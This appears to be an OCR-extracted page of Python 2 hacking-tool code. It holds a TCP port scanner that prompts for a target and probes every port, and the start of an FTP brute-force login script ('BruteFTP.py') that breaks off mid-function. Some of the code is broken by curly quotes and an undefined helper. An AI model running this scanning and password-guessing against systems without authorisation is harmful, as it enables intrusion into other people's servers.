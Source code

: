 ```

def PortScan(ip):

    result_list=list()

    port_list=range(1,65535)

    for port in port_list:

        try:

            s=socket.socket() 

            s.settimeout(0.1)

            s.connect((ip,port))

            openstr= ” PORT:”+str(port) +” OPEN “

            print openstr

            result_list.append(port)

            s.close()

        except:

            pass

    print result_list

def main():

    domain = raw_input(“PLEASE INPUT YOUR TARGET:”)

    ip = Get_ip(domain)

    print ‘IP:’+ip

    PortScan(ip)

if __name__==’__main__’:  

    main()
```

BruteFTP.py

```
import ftplib
from ftplib import FTP

def Login(host,username,password):

    ftp=FTP()

    try:

        ftp.connect(host,21,1)

        ftp.login(username,password)

        print ‘Crack successly!’

```